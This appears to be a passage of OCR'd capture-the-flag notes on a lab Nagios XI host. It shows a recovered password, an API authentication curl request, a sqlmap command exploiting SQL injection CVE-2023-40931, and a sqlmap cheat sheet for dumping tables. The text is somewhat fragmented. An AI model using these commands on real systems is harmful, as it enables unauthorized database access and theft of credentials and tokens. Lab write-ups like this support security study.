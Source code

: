 Users
```
svc
openldap
```

```
XjH7VCehowpR1xZB
```

```
cat public.snmpbulkwalk| grep 'iso.3.6.1.2.1.25.6.3.1.2.' | awk -F\" '{print $2}' > debian-aptversions.snmp
```
 
## SQLi Exploit to dumping the database

Wolftech0110
- https://outpost24.com/blog/nagios-xi-vulnerabilities/
- https://support.nagios.com/forum/viewtopic.php?f=16&t=58783
```bash
curl -XPOST -k -L 'http://YOURXISERVER/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=nagiosadmin&password=XjH7VCehowpR1xZB&valid_min=5'

eb9d746a974f2a8a44af5907bcc1588c132d1f47
```

SQLi against Nagiosxi entails *`xi_session` and `xi_users` table containing data such as emails, usernames, hashed passwords, API tokens, and backend tickets.*

- SQL Injection in Banner acknowledging endpoint (CVE-2023-40931)
	- `/nagiosxi/admin/banner_message-ajaxhelper.php`
	- `action=acknowledge_banner_message&id=3`

```bash
sqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=2&token=47b79c07a680a3366c203f77ab84babad053e840' --level=5 --risk=3 --batch -p id --random-agent
```

```python
# Target a Parameter
-p $thisIsAwesome
# enumerate Databases
--dbs 
# enumerate tables
--dbms=$databaseType -D $targetDatabase --tables 
# Dump a tables
-D $targetDatabase -T $targetTable --dump
# List columns
-D $targetDatabase -T $targetTable --columns 
# custom queries
--sql-query="select * from master.sys.server_principals"

# Data exfiltration problems
--no-cast
--hex
```
